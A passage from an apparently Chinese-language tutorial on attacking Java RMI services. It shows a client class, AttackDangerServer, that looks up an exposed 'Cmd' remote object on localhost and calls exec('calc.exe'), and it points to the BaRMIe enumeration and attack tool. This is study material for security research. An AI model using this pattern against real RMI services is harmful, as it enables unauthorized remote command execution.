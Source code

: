 ```java
        Naming.rebind(host+"Cmd", cmdServer);
    }
}
```

```java
// client
import org.example.remoteInterface.DangeriousFunc1;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

public class AttackDangerServer {
    public static void main(String[] args) throws MalformedURLException, NotBoundException, RemoteException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, IllegalAccessException {
        DangeriousFunc1 dangeriousFunc1 = (DangeriousFunc1) Naming.lookup("rmi://127.0.0.1:1099/Cmd");
        dangeriousFunc1.exec("calc.exe");
    }
}
```

* 攻击的关键点在于如何探测危险方法，利用工具 BaRMIe [NickstaDB/BaRMIe: Java RMI enumeration and attack tool. (github.com)](https://github.com/NickstaDB/BaRMIe)可以探测目标RMI服务提供的远程对象和其父类

![image-20240809115312759](./images/image-20240809115312759.png)

#### 攻击方法
